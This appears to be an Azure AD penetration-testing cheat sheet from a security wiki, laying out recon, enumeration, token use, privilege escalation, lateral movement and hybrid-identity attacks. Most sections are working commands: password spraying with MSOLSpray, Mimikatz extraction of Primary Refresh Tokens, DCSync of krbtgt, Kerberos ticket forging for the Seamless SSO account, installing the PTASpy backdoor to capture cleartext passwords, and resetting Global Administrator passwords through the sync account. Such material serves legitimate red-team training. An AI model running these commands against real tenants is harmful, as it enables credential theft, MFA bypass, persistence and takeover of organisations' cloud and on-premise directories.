

# Azure



####

#### Terminology

Basic Azure AD terminologies

* **Tenant** - An instance of Azure AD and represents a single organization.
* **Azure AD Directory** - Each tenant has a dedicated Directory. This is used to perform identity and access management functions for resources.
* **Subscriptions** - It is used to pay for services. There can be multiple subscriptions in a Directory.
* **Core Domain** - The initial domain name `<tenant>.onmicrosoft.com` is the core domain. It is possible to define custom domain names too.

**Azure AD Organisation**

[](https://hideandsec.sh/uploads/images/gallery/2022-05/wm5ul9qJbxQGnhb9-azureorga.PNG)

#### Most common attack path

Most basic user owns an app -> This app runs as a **Service Principal** -> This SP has the App Role `AppRoleAssignement.ReadWrite.All` -> With this right it can grants `RoleManagement.ReadWrite.Directory` to itself -> It can grants **AAD Directory Role** -> Global Admin

### External recon

#### Azure Tenant

**Name and Federation**

`https://login.microsoftonline.com/getuserrealm.srf?login=[USERNAME@DOMAIN]&xml=1`

With **AADInternals**

```powershell
Get-AADIntLoginInformation -UserName root@dcorp.onmicrosoft.com 
```

**Tenant ID**

`https://login.microsoftonline.com/[DOMAIN]/.well-known/openid-configuration`

```powershell
Get-AADIntTenantID -Domain corp.onmicrosoft.com 
```

**Tenant domains**

```powershell
Get-AADIntTenantDomains -Domain corp.onmicrosoft.com 
Get-AADIntTenantDomains -Domain deffin.onmicrosoft.com
```

**Validate Email ID**

`https://login.microsoftonline.com/common/GetCredentialType`

**All information**

```powershell
Invoke-AADIntReconAsOutsider -DomainName defcorphq.onmicrosoft.com
```

#### Email IDs

With `o365creeper` to check if an email ID belongs to a tenant.

```powershell
C:\Python27\python.exe C:\AzAD\Tools\o365creeper\o365creeper.py -f C:\AzAD\Tools\emails.txt -o C:\AzAD\Tools\validemails.txt
```

#### Azure Services

Azure services are available at specific domains and subdomains. To enumerate all the subdomains from a 'base':

```powershell
Import-Module C:\AzAD\Tools\MicroBurst\MicroBurst.psm1 -Verbose
Invoke-EnumerateAzureSubDomains -Base corp -Verbose
```

### Initial Access

* Password spraying technique (really noisy)

```powershell
C:\AzAD\Tools\MSOLSpray\MSOLSPray.ps1 
Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt -Password <password> -Verbose
```

* File Upload
* SQli/SSTI/etc
* OS Command Injection
* Function App Abuse
* Storage Account - Anonymous Access: `Invoke-EnumerateAzureBlobs -Base corp` - Accessible blob can be viewed in the _storage explorer_ to retrieve sensitive data
* Phishing - //TODO

### Enumeration

Can be realised partially with the **AzureAD Module** by Microsoft or with the **Az PowerShell** module.

First, it is necessary to connect to AzureAD

```powershell
#AzureAD module
Connect-AzureAD

	#With creds
$creds = Get-Credential
Connect-AzureAD -Credential $creds

#Az PowerShell
Connect-AzAccount
```

#### General information

Current session state and current tenant details

```powershell
#AzureAD module
Get-AzureADCurrentSessionInfo
Get-AzureADTenantDetail

#Az PowerShell
Get-AzContext
Get-AzContext -ListAvailable
```

Enumerate accessible subscriptions, resources

```powershell
Get-AzSubscription
Get-AzResource
```

#### Users

**All users**

```powershell
#AzureAD module
Get-AzureADUser -All $true | select UserPrincipalName

#Az PowerShell
Get-AzADUser
```

**Specific user**

```powershell
#AzureAD module
Get-AzureADUser -ObjectId test@corp.onmicrosoft.com

#Az PowerShell
Get-AzADUser -UserPrincipalName test@corp.onmicrosoft.com
```

**RBAC role assignments**

```powershell
Get-AzRoleAssignment -SignInName test@corp.onmicrosoft.com
```

| Role                      | Permissions                                                                              | Applies On         |
| ------------------------- | ---------------------------------------------------------------------------------------- | ------------------ |
| Owner                     | <ul><li>Full access to all resources</li><li>Can manage access for other users</li></ul> | All resource types |
| Contributor               | <ul><li>Full access to all resources</li><li>Cannot manage access</li></ul>              | All resource types |
| Reader                    | View all resources                                                                       | All resource types |
| User Access Administrator | <ul><li>View all resources</li><li>Can manage access for other users</li></ul>           | All resource types |

**Users with specific strings in DisplayName or userPrincipalName**

```powershell
#AzureAD module
Get-AzureADUser -SearchString "admin"
Get-AzureADUser -All $true |?{$_.Displayname -match "admin"}

#Az PowerShell
Get-AzADUser -SearchString "admin"
Get-AzADUser | ?{$_.Displayname -match "admin"}
```

**List all attributes of a user**

```powershell
Get-AzureADUser -ObjectId test@corp.onmicrosoft.com | fl * 
Get-AzureADUser -ObjectId test@corp.onmicrosoft.com | %{$_.PSObject.Properties.Name}
```

**List all users with a specific strings in attributes**

```powershell
Get-AzureADUser -All $true | %{$Properties = $_;$Properties.PSObject.Properties.Name | % {if ($Properties.$_ -match 'password') {"$($Properties.UserPrincipalName) - $_ - $($Properties.$_)"}}}
```

**Users synced from on-prem or from Azure AD**

```powershell
#From on-prem
Get-AzureADUser -All $true | ?{$_.OnPremisesSecurityIdentifier -ne $null}

#From Azure AD
Get-AzureADUser -All $true | ?{$_.OnPremisesSecurityIdentifier -eq $null}
```

**Objects created by any user**

```powershell
Get-AzureADUser | Get-AzureADUserCreatedObject
```

**Objects owned by a specific user**

```powershell
Get-AzureADUserOwnedObject -ObjectId test@corp.onmicrosoft.com
```

**KeyVault readable by the current user**

```powershell
Get-AzKeyVault
```

**Storage accounts**

```powershell
Get-AzStorageAccount | fl
```

#### Groups

**All groups**

```powershell
#AzureAD module
Get-AzureADGroup -All $true

#Az PowerShell
Get-AzADGroup
```

**Specific group**

```powershell
#AzureAD module
Get-AzureADGroup -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e

#Az PowerShell
Get-AzADGroup -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e
```

**Groups with specific strings in DisplayName**

```powershell
#AzureAD module
Get-AzureADGroup -SearchString "admin" | fl *
Get-AzureADGroup -All $true |?{$_.Displayname -match "admin"}

#Az PowerShell
Get-AzADGroup -SearchString "admin" | fl *
Get-AzADGroup |?{$_.Displayname -match "admin"}
```

**Groups that allow Dynamic membership**

```powershell
Get-AzureADMSGroup | ?{$_.GroupTypes -eq 'DynamicMembership'}
```

**Groups synced from on-prem or from Azure AD**

```powershell
#From on-prem
Get-AzureADGroup -All $true | ?{$_.OnPremisesSecurityIdentifier -ne $null}

#From Azure AD
Get-AzureADGroup -All $true | ?{$_.OnPremisesSecurityIdentifier -eq $null}
```

**Members of a group**

```powershell
#AzureAD module
Get-AzureADGroupMember -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e

#Az PowerShell
Get-AzADGroupMember -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e
```

**Groups and roles where a specified user is member**

```powershell
Get-AzureADUser -SearchString 'test' | Get-AzureADUserMembership
Get-AzureADUserMembership -ObjectId test@corp.onmicrosoft.com
```

#### Administrative Units

**Members of an Administrative Unit**

```powershell
Get-AzureADMSAdministrativeUnitMember -Id e1e26d93-163e-42a2-a46e-1b7d52626395
```

**Role scoped to an Administrative Unit**

```powershell
Get-AzureADMSScopedRoleMembership -Id e1e26d93-163e-42a2-a46e-1b7d52626395 | fl *
```

#### Roles

**All role templates**

```powershell
Get-AzureADDirectoryroleTemplate
```

**All roles**

```powershell
Get-AzureADDirectoryRole
```

**Users to whom roles are assigned**

```powershell
Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
```

#### Devices

**All Azure joined and registered devices**

```powershell
Get-AzureADDevice -All $true | fl *
```

**Device configuration object**

```powershell
Get-AzureADDeviceConfiguration | fl *
```

**List Registered owners of all the devices**

```powershell
Get-AzureADDevice -All $true | Get-AzureADDeviceRegisteredOwner
```

**List Registered users of all the devices**

```powershell
Get-AzureADDevice -All $true | Get-AzureADDeviceRegisteredUser
```

**List devices owned by a user**

```powershell
Get-AzureADUserOwnedDevice -ObjectId user@corp.onmicrosoft.com 
```

**List devices registered by a user**

```powershell
Get-AzureADUserRegisteredDevice -ObjectId user@corp.onmicrosoft.com 
```

**List devices managed using Intune**

```powershell
Get-AzureADDevice -All $true | ?{$_.IsCompliant -eq "True"}
```

**List VM where current user has at least Reader role**

```powershell
Get-AzVM | fl
```

#### Applications

**All application objects**

```powershell
#AzureAD module
Get-AzureADApplication -All $true

#Az PowerShell
Get-AzADApplication
```

**All App Services & Function Apps**

```powershell
#App Services
Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}

Function Apps
Get-AzFunctionApp
```

**All details about an application**

```powershell
#AzureAD module
Get-AzureADApplication -ObjectId a1333e88-1278-41bf-8145-155a069ebed0 | fl *

#Az PowerShell
Get-AzADApplication -ObjectId a1333e88-1278-41bf-8145-155a069ebed0
```

**Get application with a specified DisplayName**

```powershell
#AzureAD module
Get-AzureADApplication -All $true | ?{$_.DisplayName -match "app"}

#Az PowerShell
Get-AzADApplication | ?{$_.DisplayName -match "app"} 
```

**Owner of an application**

```powershell
Get-AzureADApplication -ObjectId a1333e88-1278-41bf-8145-155a069ebed0 | Get-AzureADApplicationOwner |fl *
```

**Apps where a User or a Group has a role**

```powershell
Get-AzureADUser -ObjectId user@corp.onmicrosoft.com | Get AzureADUserAppRoleAssignment | fl *

Get-AzureADGroup -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e | Get-AzureADGroupAppRoleAssignment | fl *
```

#### Service Principals

Service principal is the local representation for an app in a specific tenant and it is the security object that has privileges. This is the 'service account'.

**All Service Principals**

```powershell
#AzureAD module
Get-AzureADServicePrincipal -All $true

#Az PowerShell
Get-AzADServicePrincipal
```

**All details about a SP**

```powershell
#AzureAD module
Get-AzureADServicePrincipal -ObjectId cdddd16e-2611-4442-8f45-053e7c37a264 | fl *

#Az PowerShell
Get-AzADServicePrincipal -ObjectId cdddd16e-2611-4442-8f45-053e7c37a264
```

**SP based on DisplayName**

```powershell
#AzureAD module
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -match "app"}

#Az PowerShell
Get-AzADServicePrincipal | ?{$_.DisplayName -match "app"} 
```

**Owner of a SP**

```powershell
Get-AzureADServicePrincipal -ObjectId cdddd16e-2611-4442-8f45-053e7c37a264 | Get-AzureADServicePrincipalOwner |fl *
```

**Objects owned by a SP**

```powershell
Get-AzureADServicePrincipal -ObjectId cdddd16e-2611-4442-8f45-053e7c37a264 | Get-AzureADServicePrincipalOwnedObject
```

**Objects created by a SP**

```powershell
Get-AzureADServicePrincipal -ObjectId cdddd16e-2611-4442-8f45-053e7c37a264 | Get-AzureADServicePrincipalCreatedObject
```

**Group and role memberships of a SP**

```powershell
Get-AzureADServicePrincipal -ObjectId cdddd16e-2611-4442-8f45-053e7c37a264 | Get-AzureADServicePrincipalMembership |fl * 

Get-AzureADServicePrincipal | Get-AzureADServicePrincipalMembership
```

#### ROADTools

[ROADtools](https://github.com/dirkjanm/ROADtools)

Enumeration using RoadRecon includes three steps

* Authentication
* Data Gathering
* Data Exploration

**Authentication**

```powershell
cd C:\AzAD\Tools\ROADTools
pipenv shell 
roadrecon auth -u test@corp.onmicrosoft.com -p <password>
```

**Gather information**

`roadrecon gather`

**Use the GUI**

Server on port 5000

`roadrecon gui`

#### BloodHound / AzureHound

**Authentication and collector execution**

```powershell
$passwd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)

Connect-AzAccount -Credential $creds
Connect-AzureAD -Credential $creds

. C:\AzAD\Tools\AzureHound\AzureHound.ps1
Invoke-AzureHound -Verbose
```

**Interesting Neo4J queries**

* Find all users who have the Global Administrator role

`MATCH p =(n)-[r:AZGlobalAdmin*1..]->(m) RETURN p`

* Find all paths to an Azure VM

`MATCH p = (n)-[r]->(g: AZVM) RETURN p`

* Find all paths to an Azure KeyVault

`MATCH p = (n)-[r]->(g:AZKeyVault) RETURN p`

* Find all paths to an Azure Resource Group

`MATCH p = (n)-[r]->(g:AZResourceGroup) RETURN p`

* Find Owners of Azure Groups

`MATCH p = (n)-[r:AZOwns]->(g:AZGroup) RETURN p`

#### Stormspotter

Stormspotter creates an “attack graph” of the resources in an Azure subscription. Similar to BloodHound, but made by MS.

In three different PowerShell:

```powershell
#Start the backend server
cd ./stormspotter/backend
pipenv shell
python ssbackend.pyz

#Start the frontend server
cd ./stormspotter/frontend/dist/spa/
quasar.cmd serve -p 9091 --history

#Run the collector
cd ./stormspotter/stormcollector/
pipenv shell
az login -u test@corp.onmicrosoft.com -p <password>
python ./stormspotter/stormcollector/sscollector.pyz cli
```

Then access to the GUI on `http://localhost:9091` with Server: `bolt://localhost:7687`

### Using Azure tokens

#### Request access token

**For resource manager (ARM)**

When already connected to a tenant, with **Az PowerShell** or **AzureAD module**

```powershell
Get-AzAccessToken
(Get-AzAccessToken).Token
```

**For AAD Graph**

```powershell
Get-AzAccessToken -ResourceTypeName AadGraph
(Get-AzAccessToken -Resource "https://graph.microsoft.com").Token
```

#### Use the access token

```powershell
#Az PowerShell
Connect-AzAccount -AccountId test@corp@onmicrosoft.com -AccessToken eyJ0eXA...

	#For AAD Graph
Connect-AzAccount -AccountId test@corp@onmicrosoft.com -AccessToken eyJ0eXA... -GraphAccessToken eyJ0eXA...

AzureAD module
Connect-AzureAD -AccountId test@corp@onmicrosoft.com -AadAccessToken eyJ0eXA... 
```

**Use token with ARM API**

List all subscriptions

```powershell
$Token = 'eyJ0eXAi..'

$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value
```

List all resources accessible for the managed identity assigned to the app service:

```powershell
$Token = 'eyJ0eXAi..'

$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value
```

List allowed actions on the resource:

```powershell
$Token = 'eyJ0eXAi..'

$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value
```

**Use token with MS Graph API**

List all users

```powershell
$Token = 'eyJ0eXAi..'

$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value 
```

### Privilege Escalation

#### Automation Account

* Azure's automation service that allows to automate tasks for Azure resources, on-prem infra and other cloud providers.
* Supports Process Automation using Runbooks, Configuration Management (supports DSC), update management and shared resources (credentials, certificates, connections etc) for both Windows and Linux resources hosted on Azure and on-prem.

To check for automation account with Azure CLI:

```powershell
az automation account list

#Result
[
 {
 "creationTime": "2021-03-17T14:40:05.340000+00:00",
 "description": null,
 "etag": null,
 "id": "/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation",
 "lastModifiedBy": null,
 "lastModifiedTime": "2021-04-04T03:50:44.573333+00:00",
 "location": "switzerlandnorth",
 "name": "HybridAutomation",
 "resourceGroup": "Engineering",
 "sku": null,
 "state": null,
 "tags": {},
 "type": "Microsoft.Automation/AutomationAccounts"
 }
]
```

**Run As account**

* Used to provide authentication for managing Azure resources.
* Created by default when an automation account is created. Possible to create it later too.
* When a Run As account is created, it creates an Azure AD application with self-signed certificate, creates a service principal and assigns the Contributor role for the account in the current subscription.
* **Contributor on the entire subscription!**
* The Run As account can only be used from inside a Runbook, so **Contributor on a Runbook = profit!**

**Runbook**

* Runbook contains the automation logic and code that you want to execute.
* You can use the Shared Resources (credentials, certificates, connections etc) and the privileges of the Run As account from a Runbook.
* Always checkout Runbooks! They often have credentials that are not stored in the shared resources.

With sufficent RBAC role (**Contributor** for example) on a **Automation Account** it is possible to create Runbooks

```powershell
Get-AzRoleAssignment -Scope /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<resource group>/providers/Microsoft.Automation/automationAccounts/<automation account>

#Result
RoleAssignmentId : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/providers/Microsoft.Authorization/roleAssignments/c981e312-78da-4698-9702-e7424fae94f8
Scope : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation
DisplayName : Automation Admins
SignInName :
RoleDefinitionName : Contributor
```

Import and publish and run a runbook in a Hybrid Worker group (on a machine on-prem):

```powershell
Import-AzAutomationRunbook -Name <name> -Path C:\path\to\ps1 -AutomationAccountName <automation account> -ResourceGroupName <resource group> -Type PowerShell -Force -Verbose
Publish-AzAutomationRunbook -RunbookName <name> -AutomationAccountName <automation account> -ResourceGroupName <resource group> -Verbose
Start-AzAutomationRunbook -RunbookName <name> -RunOn <hybrid worker group> -AutomationAccountName <automation account> -ResourceGroupName <resource group> -Verbose
```

**Hybrid Worker**

* This is used when a Runbook is to be run on a non-azure machine.
* A user-defined hybrid runbook worker is a member of hybrid runbook worker group.
* The Log Analytics Agent is deployed on the VM to register it as a hybrid worker.
* The hybrid worker jobs run as SYSTEM on Windows and nxautomation account on Linux.

Check for hybrid worker group:

```powershell
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <automation account> -ResourceGroupName <resource group>
```

#### VM command execution

```powershell
Invoke-AzVMRunCommand -VMName <vmname> -ResourceGroupName <resource group> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\AzAD\Tools\adduser.ps1' -Verbose
```

#### Key Vault

* Azure service for storing secrets like passwords, connection strings, certificates, private keys etc.
* With right permissions and access, Azure resources that support managed identities (VMs, App Service, Functions, Container etc.) can securely retrieve secrets from the key vault.

|               Built-in Role              |                              Description                             | Can access secrets ? |
| :--------------------------------------: | :------------------------------------------------------------------: | :------------------: |
|           Key Vault Contributor          |                         Can manage key vaults                        |          No          |
|          Key Vault Administrator         |   Perform all data plane operations. Cannot manage role assignment.  |          Yes         |
|      Key Vault Certificates Officer      |    Perform any action on certificates. Cannot manage permissions.    |  Yes (Certificates)  |
|         Key Vault Crypto Officer         |        Perform any action on keys. Cannot manage permissions.        |      Yes (Keys)      |
|         Key Vault Secrets Officer        |       Perform any action on secrets. Cannot manage permissions.      |     Yes (Secrets)    |
|          Key Vault Secrets User          |                         Read secret contents.                        |     Yes (Secrets)    |
| Key Vault Crypto Service Encryption User |       Read metadata and perform wrap/unwrap operations on keys       |          No          |
|           Key Vault Crypto User          |              Perform cryptographic operations using keys             |          No          |
|             Key Vault Reader             | Read metadata of key vaults and its certificates, keys, and secrets. |          No          |

To extract secrets from a Key Vault:

```powershell
Get-AzKeyVaultSecret -VaultName <keyvault_name>
Get-AzKeyVaultSecret -VaultName <keyvault_name> -Name <name> -AsPlainText
```

#### Enterprise Applications

**Client Secrets**

* An application object supports multiple client secrets (application passwords).
* A user that is owner or have application administrator role over an application can add an application password.
* An application password can be used to login to a tenant as a service principal. MFA is usually not applied on a service principal

If we can compromise a user that has enough permissions to create a client secret/application password for an application object, we can:

* Login as the service principal for that application
* Bypass MFA
* Access all the resources where roles are assigned to the service principal
* Add credentials to an enterprise applications for persistence after compromising a tenant

```powershell
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### ARM Templates

ARM templates are JSON files containing deployment configuration for Azure resources.

Any user with permissions `Microsoft.Resources/deployments/read` and `Microsoft.Resources/subscriptions/resourceGroups/read` can read the deployment history.

It can contain sensitive informations like passwords, usernames, descriptions, etc.

#### Function Application

These apps are used for continious deployement from a source code provider (Azure Repos, GitHub, etc). If an account to the provider is compromised, the automatic deployement can be abused by modifying the source code.

**Check access to resource group**

```powershell
Get-AzResourceGroup
```

**Check if managed identity can read any deployment from the resource group:**

```powershell
Get-AzResourceGroupDeployment -ResourceGroupName <resource group>
```

**Save the deployment template**

```powershell
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName <resource group> -DeploymentName <deployement name>
```

### Lateral Movement

#### PRT & Azure AD joined machines

PRT = Primary Refresh Token, can be used to request new access tokens for applications

When two machines authenticate between them:

* The machine (client) initiating the connection needs a certificate from Azure AD for a user.
* Client creates a JSON Web Token (JWT) header containing PRT and other details, sign it using the Derived key (using the session key and the security context) and sends it to Azure AD.
* Azure AD verifies the JWT signature using client session key and security context, checks validity of PRT and responds with the certificate.

It is possible to extract user's PRT from a compromised machine

**Pass-the-certificate**

Check if a machine is Azure AD joined:

```powershell
dsregcmd /status
```

Extract PRT, Session key and Tenant ID with Mimikatz. Then extract context key and derived key:

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" "exit"'

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

Request a certificate with **`PrtToCert`**:

```powershell
python3 RequestCert.py --tenantId 2c240ecc-[SNIP] --prt QVFBQkFBQUFBQUFHVl9idjIxb1FRNFJPcWgwX[SNIP] --userName admin@corp.onmicrosoft.com --hexCtx e096b37dc0d8e5cde438[SNIP] --hexDerivedKey b8a39c7b3b7e7c859b[SNIP]
```

Use the certificate with **`AzureADJoinedMachinePTC`**:

```powershell
python3 Main.py --usercert "admin.pfx" --certpass <pass> --remoteip 192.168.1.2
```

**Pass-the-PRT**

First, extract the PRT in the user session context with a Nonce and **ROADToken.exe**:

```powershell
$TenantId = "2d50cb29-5f7b-48a4-87ce-fe75a941adb6"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"
$Params = @{
 "URI" = $URL
 "Method" = "POST"
}
$Body = @{
 "grant_type" = "srv_challenge"
 }
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce 

ROADToken.exe $Result.Nonce > PRT.txt
```

With **AADInternals** it is possible to request an access token directly from the PRT:

```powershell
New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SessionKey -GetNonce
```

* Open a Browser in Incognito mode
* Go to https://login.microsoftonline.com/login.srf
* Press F12 (Chrome dev tools) -> Application -> Cookies
* Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for https://login.microsoftonline.com and set its value to that retrieved from AADInternals
* Mark HTTPOnly and Secure for the cookie
* Visit https://login.microsoftonline.com/login.srf again and we will get access as the user

#### Intune - Cloud to On-Premise

Intune is a Mobile Device Management (MDM) and Mobile Application Management (MAM) service. Using the Endpoint Manager at `https://endpoint.microsoft.com/`, a user with **Global Administrator** or **Intune Administrator** role can execute PowerShell scripts on an enrolled Windows device. The script runs with privileges of SYSTEM on the device. We do not get to see the script output and the script doesn't run again if there is no change.

#### Dynamic Groups

In Azure AD it is possible te create rules to automatically add users to `dynamic groups` if specific attributes match the rules.

By default, any user can invite guests in Azure AD.

* If a dynamic group rule allows adding users based on the attributes that a guest user can modify, it will result in abuse of this feature.
* There are two ways the rules can be abused
  * Before joining a tenant as guest. If we can enumerate that a property, say mail, is used in a rule, we can invite a guest with the email ID that matches the rule.
  * After joining a tenant as guest. A guest user can 'manage their own profile', that is, they can modify manager and alternate email. We can abuse a rule that matches on Manager (`Direct Reports for "{objectID_of_manager}"`) or alternative email (`user.otherMails -any (_ -contains "string")`)

#### Application Proxy - Cloud to On-Premise

Application Proxy allows access to on-prem web applications after sign-in to Azure AD. These applications can have vulnerabilities that can be exploited.

Enumerate applications with applications proxy configured:

```powershell
Get-AzureADApplication | %{try{Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
```

Get the Service Principal (Enterprise Application):

```powershell
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "Finance Management System"}
```

Find users and groups assigned to the application. Pass the ObjectID of the Service Principal to it:

```powershell
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId ec350d24-e4e4-4033-ad3f-bf60395f0362
```

### Hybrid Identity

* Organizations have resources, devices and applications both on-premises and in the cloud.
* Many enterprises use their on-prem AD identities to access Azure applications to avoid managing separate identities on both.
* An on-premises AD can be integrated with Azure AD using Azure AD. Connect with the following methods. Every method supports Single Sign-on (SSO):
  * Password Hash Sync (PHS)
  * Pass-Through Authentication (PTA)
  * Federation
* For each method, at least the user synchronization is done and an account `MSOL_<installationidentifier>` is created on the on-prem AD.

#### PHS

It synchronizes users and a hash of their password hashes (not clear-text or original hashes) from on-prem AD to Azure AD. Built-in security groups are not synced.

By default, password expiry and account expiry are not reflected in Azure AD. That means a user whose on-prem password is expired (not changed) can continue to access Azure resources using the old password.

* The on-prem created account `MSOL_<installationidentifier>` has DCSync rights on the AD
* An account named `Sync_<name of on-prem ADConnect Server>_installationidentifier` is created in Azure AD. It can reset ANY user password **in Azure AD**.

Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed. It is possible to extract them in clear-text with admin privileges on the server.

**Lateral Movement - On-Prem Dominance**

To find the server where Azure AD Connect is installed in the AD, with the AD Module, or from Azure AD:

```powershell
#AD Module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl

#From Azure AD
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

When the server is compromised, extract the creds with **AADInternals**, and DCSync:

```powershell
#Check if AD Connect is well installed
Get-ADSyncConnector

Get-AADIntSyncCredentials
```

```powershell
runas /netonly /user:defeng.corp\MSOL_782bef6aa0a9 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.corp /dc:dc.domain.corp"'
```

**Lateral Movement - On-Prem to Cloud**

With the _Sync_ account's creds, it is possible to reset the password of everyone, even the Global Administrators.

With the creds, request an access token for AADGraph:

```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("Sync_<name of on-prem ADConnect Server>_installationidentifier@corp.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

Enumerates the Global Admins:

```powershell
Get-AADIntGlobalAdmins
```

To reset the password of **an on-prem user** that is synced to Azure AD, the **ImmutableId** (Unique Identifier derived from on-prem GUID) of the user is needed:

```powershell
Get-AADIntUser -UserPrincipalName onpremadmin@corp.onmicrosoft.com | select ImmutableId
```

And then reset:

```powershell
Set-AADIntUserPassword -SourceAnchor "<ImmutableId>" -Password "<new_password>" -Verbose
```

To reset the password of **cloud only user**, the **CloudAnchor** that can be calculated from their cloud objectID is needed (The CloudAnchor is of the format `USER_ObjectID`):

```powershell
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
```

Then, reset the user's password:

```powershell
Set-AADIntUserPassword -CloudAnchor "User_<ObjectID>" -Password "<new_password>" -Verbose 
```

#### PTA

* No password hash synchronization
* The authentication is validated on-prem. The communication with cloud is done by an authentication agent and not the on-prem DC
* By compromising the authentication agent, it is possible to verify authentications for ANY synced user even if the password is wrong, only the `userPrincipalName` is needed
* By compromising a Global Administrator, it is possible to install an authentication agent in the infrastructure that will authorize all login attempts

**Lateral Movement - On-Prem to Cloud**

On the server running Azure AD Connect with PTA, as admin, install the backdoor:

```powershell
Install-AADIntPTASpy
```

Now it is possible to authenticate on Azure AD as any user without knowing the good password. Additionally, it is possible to spy the passwords of the users who authenticate by running this on the server where the backdoor is installed:

```powershell
Get-AADIntPTASpyLog -DecodePasswords
```

After getting GA privs in Azure AD, it is possible to register a new PTA agent on a controlled machine by running the same steps.

#### Seamless SSO

* Azure AD Seamless SSO automatically signs users in when they are on on-prem domain-joined machine. There is no need to use passwords to log in to Azure AD and on-prem applications.
* Supported by both PHS and PTA.
* When Seamless SSO is enabled, a computer account **AZUREADASSOC** is created in the on-prem AD. This account's Kerberos decryption key is shared with Azure AD.
* Azure AD exposes an endpoint (https://autologon.microsoftazuread-sso.com) that accepts Kerberos tickets. Domain-joined machine's browser forwards the tickets to this endpoint for SSO.

By compromising the NTLM hash of the computer account **AZUREADASSOC**, it's possible to create ST that can be used from any machine connected to the internet:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.corp /dc:dc.domain.corp"'
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:domain.corp /rc4:<> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
```

#### Federation - ADFS

* In case of federation, a trust is established between unrelated parties like on-prem Active Directory and Azure AD.
* In Federation, all authentication occurs in the on-prem environment and the user experiences SSO across all the trusted environments.
* Users can access cloud applications by using their on-prem credentials.
* A user is identified by **ImmutableID**. It is globally unique and stored in Azure AD.
* In ADFS, SAML Response is signed by a token-signing certificate.
